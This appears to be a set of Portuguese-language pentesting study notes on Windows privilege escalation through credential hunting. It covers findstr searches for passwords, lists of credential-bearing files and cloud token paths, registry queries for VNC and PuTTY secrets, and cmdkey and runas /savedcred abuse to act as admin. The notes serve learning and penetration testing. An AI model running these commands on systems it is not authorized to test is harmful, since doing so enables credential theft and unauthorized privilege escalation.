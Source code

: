 - Filtra por arquivos com nome "passw"
- ``` C:\> type output.txt | findstr /i passw ```

https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/dir#examples


## Nomes e Extenções de arquivos interessantes para verificar

- Extenções: install, backup, .bak, .log, .bat, .cmd, .vbs, .cnf, .conf, .conf, ,ini, .xml, .txt, .gpg, .pgp, .p12, .der, .crs, .cer, id_rsa, id_dsa, .ovpn, vnc,
ftp, ssh, vpn, git, .kdbx, .db

- Arquivos: unattend.xml, Unattended.xml, sysprep.inf, sysprep.xml, VARIABLES.DAT, setupinfo, setupinfo.bak, web.config, SiteList.xml, .aws\credentials, .azure\accessTokens,json, .azure\azureProfile.json, gcloud\credentials.db, gcloud\legacy_credentials, gcloud\access_tokens.db

- ``` C:\> type output.txt | findstr /i algumas extenção ```



## Arquivos nos Registries 

- ``` reg query "HKCU\Software\ORL\WinVNC3\Passowrd" ```
 
- ``` reg query "HKCU\Software\TightVNC\Server" ```

- ``` reg query "HKCU\Software\SimonTatham\PuTTY\Sessions" ```

- ``` reg query "HKCU\Software\SimonTatham\PuTTY\Sessions\local" ```


- ``` reg query HKLM /f password /c REG_SZ /s ```

- ``` reg query HKLM /f password /c REG_SZ /s ```



## Abusing Credential Manager

- Credential Manager
  - O Credential Manager é uma espécie de cofre digital dentro do sistema Windows. O Windows armazena credenciais de registry, como usernames e senhas...

- Do ponto de vista do invasor, geralmente você não tem acesso a uma GUI... Então você usa a linha de comando. Na linha de comando existe uma ferramenta chamada "cmdkey".

  - O cmdkey também permite listar essas informações.
    - ``` C:\> cmdkey /list ```

- We can access actualy the Admin home directory and run processes as Admin:
  - ``` C:\> runas /user:admin cmd.exe``` <===== precisa de admin pass

  - ``` C:\> runas /savedcred /user:admin cmd.exe ```
    - windows vai até Credential Manager, verifica o usuário admin (consulta o banco de dados), extrai a senha do usuário admin e executa o processo. (execute como administrador com integrity level medium)

- Podemos listar todos os diretórios aos quais não temos acesso.
  - ``` C:\> runas /savedcred /user:admin "c:\windows\system32\cmd.exe /c dir /b /a /s c:\users\admin > c:\output-admin.txt" ```
    - em um cenário real você faz download do arquivo para a attack machine e analisa "offline"

